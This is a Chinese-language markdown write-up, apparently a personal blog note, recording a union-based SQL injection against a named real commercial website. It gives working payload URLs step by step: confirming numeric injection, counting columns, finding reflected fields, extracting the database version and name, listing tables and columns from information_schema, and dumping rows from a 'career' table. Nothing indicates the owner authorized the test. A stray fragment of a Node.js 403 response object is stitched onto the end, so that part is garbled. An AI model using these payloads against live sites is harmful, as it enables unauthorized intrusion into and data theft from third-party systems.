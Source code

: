 # 记第一次sql注入（union）

目标网站是：https://www.techmart.com.hk/Coating_Services/latest_news_detail.php?id=1

### 1.判断是字符型注入还是数字型注入

id=1时

```sql
https://www.techmart.com.hk/Coating_Services/latest_news_detail.php?id=1
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728195146696.png" alt="image-20220728195146696" style="zoom:33%;" />

id=2时

```sql
https://www.techmart.com.hk/Coating_Services/latest_news_detail.php?id=2
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728195047389.png" alt="image-20220728195047389" style="zoom:33%;" />

id=2-1时

```sql
https://www.techmart.com.hk/Coating_Services/latest_news_detail.php?id=2-1
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728195222677.png" alt="image-20220728195222677" style="zoom:33%;" />

`由此可以看出，该网站存在数字型注入`

### 2.判断列数

`最后推算出结果列数为6。`

```sql
https://www.techmart.com.hk/Coating_Services/latest_news_detail.php?id=1 group by 6 -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728195606156.png" alt="image-20220728195606156" style="zoom:33%;" />

### 3,获取回显位

将id=-1，union注入后，获得`回显位是4和5`

```sql
https://www.techmart.com.hk/Coating_Services/latest_news_detail.php?id=-1 union select 1,2,3,4,5,6 --  
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728200234803.png" alt="image-20220728200234803" style="zoom:33%;" />

### 3.查询数据库版本和数据库名称

数据库的版本：10.4.21-MariaDB

数据库名称：techmarthk_data2

```sql
https://www.techmart.com.hk/Coating_Services/latest_news_detail.php?id=-1 union select 1,2,3,version(),database(),6 --  
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728200532804.png" alt="image-20220728200532804" style="zoom:33%;" />

### 4.获取该数据库的所有表的表名

4号回显位上显示的就是该数据库下的所有表名，我选择查询`career`表里的信息。

```sql
https://www.techmart.com.hk/Coating_Services/latest_news_detail.php?id=-1 union select 1,2,3,group_concat(table_name),database(),6 from information_schema.tables where table_schema='techmarthk_data2' --  
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728201030517.png" alt="image-20220728201030517" style="zoom:33%;" />

### 5.获取career表里的所有列名

career表下所有列：career_id,career_title,career_desc,career_desc_chi,career_desc2,career_desc2_chi,career_desc3,career_desc3_chi

```sql
https://www.techmart.com.hk/Coating_Services/latest_news_detail.php?id=-1 union select 1,2,3,group_concat(column_name),database(),6 from information_schema.columns where table_name='career' --  
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728201551649.png" alt="image-20220728201551649" style="zoom:33%;" />

### 6.获取career表里的任意两列信息

```sql
https://www.techmart.com.hk/Coating_Services/latest_news_detail.php?id=-1 union select 1,2,3,group_concat(career_title),group_concat(career_desc),6 from career --  
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220728201953179.png" alt="image-20220728201953179" style="zoom:33%;" />







ng":null,"endEmitted":false,"ended":false,"flowing":true,"highWaterMark":16384,"length":0,"needReadable":true,"objectMode":false,"pipes":null,"pipesCount":0,"readableListening":false,"reading":true,"readingMore":false,"resumeScheduled":false,"sync":false},"_server":null,"_sockname":null,"_writableState":{"bufferProcessing":false,"bufferedRequest":null,"bufferedRequestCount":0,"corked":0,"corkedRequestsFree":{"entry":null,"next":{"entry":null,"next":null}},"decodeStrings":false,"defaultEncoding":"utf8","destroyed":false,"emitClose":false,"ended":true,"ending":true,"errorEmitted":false,"finalCalled":true,"finished":false,"highWaterMark":16384,"lastBufferedRequest":null,"length":0,"needDrain":false,"objectMode":false,"pendingcb":1,"prefinished":false,"sync":false,"writecb":null,"writelen":0,"writing":false},"allowHalfOpen":false,"connecting":false,"parser":null,"readable":true,"server":null,"writable":false},"statusCode":403,"statusMessage":"Forbidden","trailers":{},"upgrade":false,"url":""},"serverError":false,"status":403,"statusCode":403,"statusType":4,"type":"text/plain","unauthorized":false,"unprocessableEntity":false},"status":403}